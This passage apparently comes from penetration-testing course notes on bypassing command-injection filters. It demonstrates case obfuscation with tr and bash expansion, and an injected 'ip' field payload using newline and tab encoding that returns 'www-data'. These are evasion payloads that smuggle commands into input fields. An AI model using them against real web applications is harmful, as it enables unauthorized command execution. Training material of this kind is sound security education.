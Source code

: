 **Linux Challenge:** Linux systems are **case-sensitive**, so we need creative solutions.

**Solution: Character Translation**
```bash
# Using tr to convert uppercase to lowercase
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

**Testing on Linux:**
```bash
21y4d@htb[/htb]$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
21y4d
```

### Web Application Testing

**Initial Attempt (Fails):**
```http
# This fails due to space characters being filtered
ip=127.0.0.1%0a$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
Response: Invalid input
```

**Successful Bypass:**
```http
# Replace spaces with tabs (%09)
ip=127.0.0.1%0a$(tr%09"[A-Z]"%09"[a-z]"<<<"WhOaMi")

# Expected result:
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.635 ms
--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss

www-data
```

### Alternative Case Manipulation (Linux)

**Bash Parameter Expansion:**
```bash
# Using lowercase expansion
$(a="WhOaMi";printf %s "${a,,}")
```

**Testing:**
```bash
21y4d@htb[/htb]$ $(a="WhOaMi";printf %s "${a,,}")
21y4d
```

---

## Reversed Commands

> **🔄 String Reversal:** Executing commands by reversing them to avoid detection
